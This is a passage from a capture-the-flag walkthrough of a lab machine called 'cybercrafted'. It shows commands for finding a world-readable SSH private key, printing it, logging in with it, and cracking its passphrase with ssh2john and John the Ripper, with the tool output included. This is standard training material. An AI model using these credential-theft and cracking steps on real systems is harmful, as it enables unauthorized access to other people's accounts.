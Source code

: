 The SSH folder is also open to us. Let's keep this going...

```
www-data@cybercrafted:/home/xxxxxxxxxxxxxxxxxxx/.ssh$ ls -al
total 16
drwxrwxr-x 2 xxxxxxxxxxxxxxxxxxx xxxxxxxxxxxxxxxxxxx 4096 Jun 27 09:35 .
drwxr-xr-x 5 xxxxxxxxxxxxxxxxxxx xxxxxxxxxxxxxxxxxxx 4096 Oct 15 20:43 ..
-rw-r--r-- 1 xxxxxxxxxxxxxxxxxxx xxxxxxxxxxxxxxxxxxx  414 Jun 27 09:33 authorized_keys
-rw-r--r-- 1 xxxxxxxxxxxxxxxxxxx xxxxxxxxxxxxxxxxxxx 1766 Jun 27 09:33 id_rsa
```
I see a private key (`id_rsa`) that is viewable to anyone. I'm going to copy the contents of the file and paste them into a file on my machine and use that private key to attempt to login as this user.

First we need to cat out the file

```
www-data@cybercrafted:/home/xxxxxxxxxxxxxxxxxxx/.ssh$ cat id_rsa
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,3579498908433674083EAAD00F2D89F6

Sc3FPbCv/4DIpQUOalsczNkVCR+hBdoiAEM8mtbF2RxgoiV7XF2PgEehwJUhhyDG
+Bb/uSiC1AsL+UO8WgDsbSsBwKLWijmYCmsp1fWp3xaGX2qVVbmI45ch8ef3QQ1U
---[snip]---
```

Then copy and paste the contents into a file on our own box. Don't forget to change the permissions of the file after you save it: `chmod 400 admin_rsa`

With the private key, we can now attempt to login as the admin:

```
root@ip-10-10-168-165:~# ssh -i admin_rsa xxxxxxxxxxxxxxxxxxx@10.10.155.126
The authenticity of host '10.10.155.126 (10.10.155.126)' can't be established.
ECDSA key fingerprint is SHA256:okt+zU5MJ0D6EUFqOILqeZ9l1c9p53AxM90JQpBvfvg.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '10.10.155.126' (ECDSA) to the list of known hosts.
Enter passphrase for key 'admin_rsa': 
```

It appears the private key has passphrase. No worries, `ssh2john.py` can pull the hash off of the key for us. Once we have the hash, JohnTheRipper can be used to decypt the hash file.

```
root@ip-10-10-168-165:~# /opt/john/ssh2john.py admin_rsa > admin_rsa.hash
root@ip-10-10-168-165:~# john --wordlist=/usr/share/wordlists/rockyou.txt admin_rsa.hash
Note: This format may emit false positives, so it will keep trying even after finding a
possible candidate.
Warning: detected hash type "SSH", but the string is also recognized as "ssh-opencl"
Use the "--format=ssh-opencl" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
xxxxxxxxxxx      (admin_rsa)
1g 0:00:00:16 DONE (2021-11-21 06:20) 0.05906g/s 847117p/s 847117c/s 847117C/s *7¡Vamos!
Session completed.
```
